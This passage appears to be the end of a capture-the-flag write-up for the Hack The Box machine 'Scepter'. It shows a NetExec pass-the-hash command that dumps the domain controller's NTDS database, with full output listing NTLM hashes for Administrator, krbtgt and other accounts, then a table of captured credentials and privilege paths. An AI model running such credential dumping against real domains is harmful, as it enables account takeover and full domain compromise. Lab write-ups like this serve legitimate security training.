and we can dump everything!!! with nxc `--ntds` module

```bash
➜  scepter2 nxc smb 10.10.11.65 -u p.adams -H 1b925c524f447bb821a8789c4b118ce0 --ntds 
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.65     445    DC01             [+] scepter.htb\p.adams:1b925c524f447bb821a8789c4b118ce0 
SMB         10.10.11.65     445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         10.10.11.65     445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.11.65     445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:a291ead3493f9773dc615e66c2ea21c4:::
SMB         10.10.11.65     445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.11.65     445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c030fca580038cc8b1100ee37064a4a9:::
SMB         10.10.11.65     445    DC01             scepter.htb\d.baker:1106:aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce:::
SMB         10.10.11.65     445    DC01             scepter.htb\a.carter:1107:aad3b435b51404eeaad3b435b51404ee:20688f5fcfa2354f667523a73a3d1951:::
SMB         10.10.11.65     445    DC01             scepter.htb\h.brown:1108:aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c:::
SMB         10.10.11.65     445    DC01             scepter.htb\p.adams:1109:aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0:::
SMB         10.10.11.65     445    DC01             scepter.htb\e.lewis:2101:aad3b435b51404eeaad3b435b51404ee:628bf1914e9efe3ef3a7a6e7136f60f3:::
SMB         10.10.11.65     445    DC01             scepter.htb\o.scott:2102:aad3b435b51404eeaad3b435b51404ee:3a4a844d2175c90f7a48e77fa92fce04:::
SMB         10.10.11.65     445    DC01             scepter.htb\M.clark:2103:aad3b435b51404eeaad3b435b51404ee:8db1c7370a5e33541985b508ffa24ce5:::
SMB         10.10.11.65     445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:0a4643c21fd6a17229b18ba639ccfd5f:::
```

And bamm!!!!!

## Creds

| username | password / hash | work at | from | privileges |
| --- | --- | --- | --- | --- |
| - | newpassword | pfx files | - | - |
| d.baker | 18b5fb0d99e7a475316213c15b6f22ce | LADP | pfx  |  |
| h.brown | 4ecf5242092c6fb8c360a08069c75a0c | winrm | ESC9 |  |
| p.adams | 1b925c524f447bb821a8789c4b118ce0 | everywhere | ESC9 | DCSYNC |
| Administrator | a291ead3493f9773dc615e66c2ea21c4 | everywhere | DCSYNC | DA |
